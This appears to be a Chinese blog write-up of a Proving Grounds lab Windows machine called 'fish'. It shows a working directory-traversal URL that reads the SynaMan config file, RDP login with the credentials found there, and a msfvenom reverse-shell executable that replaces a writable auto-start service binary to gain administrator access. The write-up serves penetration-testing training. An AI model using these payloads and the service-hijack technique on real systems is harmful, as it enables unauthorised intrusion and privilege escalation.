 ```yaml
---
title: Proving Grounds Practive-fish-Windows
date: 2025-09-17 20:00:00
tags: 红队
categories: 红队打靶-Windows
---
```


# 信息收集

## nmap

![image-20250917173932590](./fish-Windows/image-20250917173932590.png)

![image-20250917173946000](./fish-Windows/image-20250917173946000.png)

![image-20250917173957163](./fish-Windows/image-20250917173957163.png)

# web服务

4848端口存在目录穿越漏洞，但是我们不知道web服务所在的文件夹

![image-20250917180720357](./fish-Windows/image-20250917180720357.png)

6060端口`SynaMan 5.1`存在经过认证的远程代码执行

所以思路就是要找到`SynaMan` 的账号密码，尝试去找一找这个配置文件的位置

看了很多wp都没有写这个文件位置是怎么来的，在这篇文章中有写

[重置 SynaMan 的管理员密码 --- Resetting admin password for SynaMan](./https://web.synametrics.com/SynaManResetAdminPWD.htm)

![image-20250918131723549](./fish-Windows/image-20250918131723549.png)

```
http://192.168.150.168:4848/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/SynaMan/config/AppConfig.xml
```

利用这个用户和密码可以通过远程桌面连接

![image-20250918143818034](./fish-Windows/image-20250918143818034.png)

```
xfreerdp /u:arthur /p:KingOfAtlantis /v:192.168.150.168
```



# 提权

运行winPEAsx64

![image-20250918145730730](./fish-Windows/image-20250918145730730.png)

securityService.exe这个应用所有人都可以操作，并且还有开机自启选项

```
wmic service get name,displayname,pathname,startmode,Startname | findstr /i "auto"
```

查看启动任务，该应用是以本地管理员权限自动启动的

![image-20250918145844715](./fish-Windows/image-20250918145844715.png)

那么提权思路就是生成反向shell的恶意securityService.exe，然后替换这个exe，重启电脑即可

```
msfvenom -p windows/x64/shell_reverse_tcp lhost=192.168.45.222 lport=8002 -f exe -o shell.exe

move securityService.exe securityService.bat
move shell.exe securityService.exe
shutdown /r /t 0
```

![image-20250918150032642](./fish-Windows/image-20250918150032642.png)
